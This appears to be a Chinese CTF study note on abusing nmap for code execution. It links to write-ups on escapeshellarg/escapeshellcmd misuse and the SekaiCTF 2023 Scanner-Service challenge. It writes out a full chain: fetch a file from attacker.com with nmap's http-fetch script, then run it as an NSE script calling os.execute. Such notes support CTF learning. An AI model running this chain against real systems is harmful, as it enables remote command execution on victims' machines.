 # 文章
[nmap.md](https://www.yuque.com/attachments/yuque/0/2023/md/25358086/1693233068912-a851eda4-4471-48e4-b177-5233bc606236.md)<br />[NMAP类型题目 (escapeshellarg,escapeshellcmd使用不当) - mwkks - 博客园](https://www.cnblogs.com/xcj-djx/p/13745899.html)<br />[NMAP类型题目 (escapeshellarg,escapeshellcmd使用不当) - mwkks - 博客园.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1693233726113-d072efcc-0d50-4b93-b59f-f2307a92fcdf.pdf)
# 一些利用思路
### 思路1
开启VPS，目录下有一个名为`fiile_to_save`文件
```bash
python3 -m http.server 80
```
受害机执行以下命令下载文件
```bash
RHOST=attacker.com
RPORT=8080
TF=$(mktemp -d)
LFILE=file_to_save
nmap -p $RPORT $RHOST --script http-fetch --script-args http-fetch.destination=$TF,http-fetch.url=$LFILE
```
`file_to_save`内容如下
```bash
os.execute("执行任意命令")
```
受害机执行以下命令进行命令执行
```bash
nmap --script=/tmp/<ip>/<port>/file_to_save
```
#### 例题
[[SekaiCTF 2023]Scanner-Service](https://learn-cyber.net/writeup/Scanner-Service)<br />[Scanner Service - LearnCyber.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1693233517896-b2543978-d4a8-4491-a3fa-4faf638f75c4.pdf)
